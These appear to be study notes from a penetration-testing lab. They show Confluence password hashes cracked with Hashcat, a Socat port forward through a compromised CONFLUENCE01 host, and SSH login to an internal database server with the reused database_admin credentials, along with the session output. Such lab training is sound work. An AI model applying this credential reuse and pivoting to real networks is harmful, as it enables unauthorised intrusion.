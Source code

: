 ```

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

...

{PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34:P@ssw0rd!
{PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0:sqlpass123
{PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV:Welcome1234
...
```

It appears that the password policy for this Confluence instance isn't very strong
+ After only a few minutes of cracking, Hashcat returns passwords for the _database_admin_, _hr_admin_ and _rdp_admin_ users

We might suspect that these passwords are reused in other places throughout the network
+ After some more enumeration of the internal network, we'll find PGDATABASE01 is also running an SSH server
+ Let's try these credentials against this SSH server
+ With our new port forwarding skill, we can create a port forward on CONFLUENCE01 that will allow us to SSH directly from our Kali machine to PGDATABASE01

First, we need to kill the original Socat process listening on TCP port 2345
+ 'll then create a new port forward with Socat that will listen on TCP port 2222 and forward to TCP port 22 on PGDATABASE01
+ Usage:
```
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

With our new Socat port forward set up, our network setup will be configured much like the following diagram:
![[Pasted image 20231214143926.png]]

There are only very minimal differences between this and the previous network setup
+ Instead of listening on 2345, we are listening on 2222
+ Instead of forwarding to TCP port 5432 on PGDATABASE01, we are forwarding to TCP port 22 on PGDATABASE01

We'll then use our SSH client to connect to port 2222 on CONFLUENCE01, as though we are connecting directly to port 22 on PGDATABASE01
+ We can use the _database_admin_ user, and the password we just cracked using Hashcat:
```
kali@kali:~$ ssh database_admin@192.168.50.63 -p2222
The authenticity of host '[192.168.50.63]:2222 ([192.168.50.63]:2222)' can't be established.
ED25519 key fingerprint is SHA256:3TRC1ZwtlQexLTS04hV3ZMbFn30lYFuQVQHjUqlYzJo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.50.63]:2222' (ED25519) to the list of known hosts.
database_admin@192.168.50.63's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:43:07 AM UTC

  System load:  0.1               Processes:               241
  Usage of /:   59.3% of 7.77GB   Users logged in:         1
  Memory usage: 16%               IPv4 address for ens192: 10.4.50.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.50.215


0 updates can be applied immediately.
```